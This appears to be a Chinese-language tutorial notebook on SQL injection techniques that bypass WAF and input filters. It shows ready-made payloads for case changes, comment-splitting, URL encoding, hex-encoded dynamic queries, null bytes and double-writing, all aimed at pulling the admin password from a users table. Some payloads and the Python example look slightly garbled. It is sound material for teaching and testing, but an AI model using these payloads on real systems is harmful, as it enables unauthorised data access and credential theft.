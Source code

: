 ## 大小写变化
sql语言是不区分大小写额度，所以可以通过变换攻击字符中的大小写来避开他们，从而实现绕过前端。由于前端可能对关键字段如amd select union这些sql字段进行了过滤，所以如果上传了这些单词可定是不能通过过滤的，但是php，java，python这些都是区分大小写的高级语言。而sql是不区分大小写的。因此，打乱了某个字段的大小写，也就是可以变相绕过后台的过滤，从而直接到达数据库。
举例：当order被过滤的时候，使用Order可以跳过过滤。
1. 选择合适的大小写。如order被过滤，则使用Order
<img src="../pictures/cbctpf50vmm.png" width="600" />
查询出来一共有三个字段。
<img src="../pictures/8fa0d224hsw.png" width="600" />
2. 选择合适的大小写Union，从而跳过union字段的过滤。从而获取到数据。


## 使用sql注释
1. 使用注释代替空格

```sql
/**/union/**/select/**/password/**/from/**/tblUsers/**/where/**/uusername/**/like/**/'admin'
```


2. 使用内部连接注释
举例子：以下一句sql

```sql
/**/union/**/select/**/password/**/from/**/tblUsers/**/where/**/uusername/**/like/**/'admin'
```


可以改写成

```sql
/**/un/**/ion/**/se/**/lect/**/password/**/fr/**/om/**/tblUsers/**/wh/**/ere/**/uusername/**/li/**/ke/**/'admin'
```


.因此可以看出，我们可以使用内联注释来对关键字符进行拆分，从而实现越过过滤器

## 使用url编码

用URL编码来逃避过滤。有以下一条sql语句

```sql
/**/union/**/select/**/password/**/from/**/tblUsers/**/where/**/uusername/**/like/**/'admin'
```


如果过滤器对“/*”进行了过滤，那么这条语句肯定是不能通过，随意可以将其转换为

```sql
%2f%2a*/union%2f%2a*/select%2f%2a*/password%2f%2a*/from%2f%2a*/tblUsers%2f%2a*/where%2f%2a*/uusername%2f%2a*/like%2f%2a*/'admin'
```


对关键字符进行url编码，从而实现过滤。如果一次不行们可以进行两次甚至多次url编码，但只要记住只是对关键字符进行url编码。其中为什么多次url编码可以实现，这个是由于web应用有时候多次解码

unicode编码方式  
由于unicode编码方式的复杂性，所以解码器是啊按照最近匹配原则进行匹配unicode匹配编码。

## 使用动态查询执行


简单来说，就是将sql语句存储到一个变量中，然后执行这条sql语句。其中的关键之处在于sql语句是字符串形式，这也就代表着有多种方法可以构造字符串。
1. 连接字符串
Oracel ： 'sel'||'et' $\rightarrow$ 'select'
Mysql : 'sel''ect' $\rightarrow$ 'select'

2. 使用ascii码
'select' $\rightarrow$ char(83)+char(69)+char(76)+char(69)+char(67)+char(84)

3. 使用sql字符串的ascii十六进制来代替字符串
```sql
select password from tblUsers
```
SQL SERVER 也可以按照以下形式进行构造
```
DECLARE @query varchar(100);
SELECT @query = 0x53454C454354202A2046524F4D2074626C7573657273
exec(@query)
```
其中 0x53454C454354202A2046524F4D2074626C7573657273就是SELECT * FROM tblusers的16进制。


```{.python .input  n=8}
for i in "SELECT password FROM tblUsers":
    print(int(str(ord(i))),end="")
```

```{.json .output n=8}
[
 {
  "name": "stdout",
  "output_type": "stream",
  "text": "83697669678432112971151151191111141003270827977321169810885115101114115"
 }
]
```

## 使用空字符
由于过滤器一般都是存在于自生代码之外，比如WAF与IDS。而这些组件与原来的后台的编写语言是不同的，由于不同语言之间存在差异，可以使用这些微小差异进行绕过过滤。其中比较重要的一点就是可以使用空字符进行注入。原生过滤在遇到%00就会停止读取，也就能够绕过过滤了。比如
```sql
%00' union select password from tblusers where username='admin'--
```
从而实现空字符隔断注入


## 双写绕过注入
当前台不采用匹配过滤，而采用匹配删除的情况来使用的时候。比如and就会被删除and，那么则使用anand.这样子只有被过滤了才算成功注入。即从anand中删除and。变成了另外一个and。
举例，过滤了关键词or。
<img src="../pictures/4y1vk21iflq.png" width="600" />

```{.python .input}

```
